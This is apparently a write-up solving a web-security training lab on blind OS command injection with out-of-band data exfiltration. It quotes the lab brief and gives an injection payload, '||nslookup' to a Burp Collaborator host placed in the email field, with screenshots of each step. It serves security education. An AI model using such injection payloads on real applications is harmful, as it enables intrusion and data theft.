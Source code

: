 # Lab 4 - Blind OS command injection with out-of-band data exfiltration

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.
```
### Solution - 

We first create a external server ie . collaborator server.

![image](https://user-images.githubusercontent.com/67383098/225314001-fc343a73-6fc5-498a-8ea8-bbaab4682c33.png)

Copy the collaborator server link - `http://zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net/`

Paste the payload `||nslookup zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net|| ` (URL - encode ) in the email parameter .

![image](https://user-images.githubusercontent.com/67383098/225314704-8214e8e5-af55-4af7-af05-81e0fcb4c061.png)

Now click SEND button, click `POLL NOW button in `burp collaborator` ,

![image](https://user-images.githubusercontent.com/67383098/225315163-0dcaaa6d-3962-410f-91e4-725784cfdd96.png)

